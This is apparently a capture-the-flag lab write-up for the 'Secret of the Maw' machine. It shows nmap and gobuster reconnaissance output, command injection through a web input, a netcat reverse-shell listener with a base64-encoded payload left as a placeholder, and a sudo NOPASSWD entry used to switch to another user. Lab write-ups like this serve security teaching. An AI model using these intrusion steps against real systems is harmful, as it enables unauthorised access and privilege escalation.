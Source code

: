 # CTF: Secret of the Maw

![Difficulty: Easy](https://img.shields.io/badge/difficulty-easy-%2300ff00)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP](https://img.shields.io/badge/category-ftp-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)
![alt text](img/secretofthemaw.png)

## Description

> Uncover the secrets of the maw, and don't get caught!

## Write-up

UserFlag: user.txt
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results :

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-20 10:26 BST
Nmap scan report for ip-10-10-118-193.eu-west-1.compute.internal (10.10.118.193)
Host is up (0.0060s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:81:96:FF:41:9D (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

The target machine has three open ports, 22, 21 and 80. Port 21 is running an FTP server. Let's connect to the FTP server.

We go to the 80 port :

`http://$IP`

We see a website with a gif :

![alt text](img/secretofthemaw1.png)

We can use gobuster to find hidden directories :

```
gobuster dir --url http://$IP -w Tools/wordlists/dirbuster/directory-list-2.3-small.txt
```

Results :

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.118.193
[+] Threads:        10
[+] Wordlist:       Tools/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/20 10:31:03 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/discrete (Status: 301)
Progress: 46295 / 87665 (52.81%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/05/20 10:31:10 Finished
===============================================================
```

We go to the `/discrete` directory :

`http://$IP/discrete`

We see a page with a gif and a input

![alt text](img/secretofthemaw2.png)

If we try to put a random input, we see nothing happens.
But if we put linux commands, we are redirected to a page saying "You weren't discrete ! Hide quickly or he's going to find you!"

We have to do a reverse shell to get the user flag.  
http://localhost:7778

We can use the following command :

**In the attacker machine :**

```
nc -lvnp 9001
```

**In the target website :**

```
echo « BASE64 » | base64 —decode
```

We do `sudo -l` to see the sudo rights of the user.

```bash
User www-data may run the following commands on the-maw:
    (six) NOPASSWD: /home/six/.musicbox
```

We can execute the `/home/six/.musicbox` file as the user
```bash
sudo -u six /home/six/.musicbox
```

We are connected to `six` user. We have the user flag in the `/home/six` directory.